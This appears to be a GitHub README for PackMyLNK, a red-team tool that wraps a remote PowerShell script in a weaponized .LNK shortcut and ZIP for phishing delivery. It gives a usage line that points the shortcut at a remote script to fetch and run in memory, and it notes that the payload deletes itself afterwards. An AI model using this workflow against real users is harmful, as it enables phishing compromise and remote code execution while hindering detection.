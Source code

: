 # PackMyLNK

This tool takes a URL pointing to a PowerShell script and embeds it into a weaponized .LNK file for in-memory execution. It automatically generates the .LNK file, packages it in a ZIP, and prepares everything for easy delivery through Social Engineering techniques.

Surprisingly, .LNK files remain effective today as an initial compromise vector in phishing and Red Team engagements!


## Usage

`.\PackMyLNK.exe -Url http://example.com/runme.ps1 -Lnk Manual -Zip Project`

![Screenshot 2024-11-16 140031](https://github.com/user-attachments/assets/8bed007c-093e-4c7b-b63e-ef67fbc00501)

> [NOTE] The malicious script delete itself after the execution !

#### DISCLAIMER: This tool is intended for testing and educational purposes only. It should only be used on systems with proper authorization. Any unauthorized or illegal use of this tool is strictly prohibited. The creator of this tool holds no responsibility for any misuse or damage caused by its usage.
